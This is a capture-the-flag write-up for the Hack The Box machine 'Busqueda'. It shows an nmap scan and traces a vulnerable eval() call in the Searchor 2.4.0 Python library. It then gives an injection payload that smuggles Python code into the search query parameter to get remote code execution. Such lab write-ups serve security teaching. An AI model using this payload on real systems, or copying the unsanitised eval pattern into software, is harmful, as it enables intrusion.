 # Busqueda

## Enumeration:

Start off with an nmap scan:
```vim
nmap -sC -sV -Pn -v <IP_ADDR>
```

We get the following response, which leaks the `searcher.htb` domain:
```vim
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looking into the web app, There is a github link in the source code along with the version number of the application being used:

![Image](https://github.com/AlexDowneyJr/CTFs/blob/main/HackTheBox/Busqueda%20CTF/images/1.png)

The Github link takes us to a repository for a Python library called Searchor, which is used for web scraping, obtaining information on an topic, and generating search query URLs. Looking back into the target web app, we can see a `/search` endpoint which generates search query URLs for multiple search engines.

Looking into the Python library, I was able to find the following vulnerability which affected version 2.4.0 (patched in 2.4.2): https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b

The Python library was using `eval()` without any input sanitization, which can lead to RCE. We can see the line of code causing the vulnerability below:
```
url = eval(f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})")
```

## Exploit:

In order to exploit the vulnerability, we have to add `__import__('os').system('sleep 3')` as the RCE somewhere in the query parameter while sending the request. Since the `search` method takes multiple parameters, we can make our payload to look like this: 

```python
Payload: ',__import__('os').system('sleep 3')) #

Result: url = eval(f"Engine.{engine}.search('',__import__('os').system('sleep 3')) #', copy_url={copy}, open_web={open})")
```
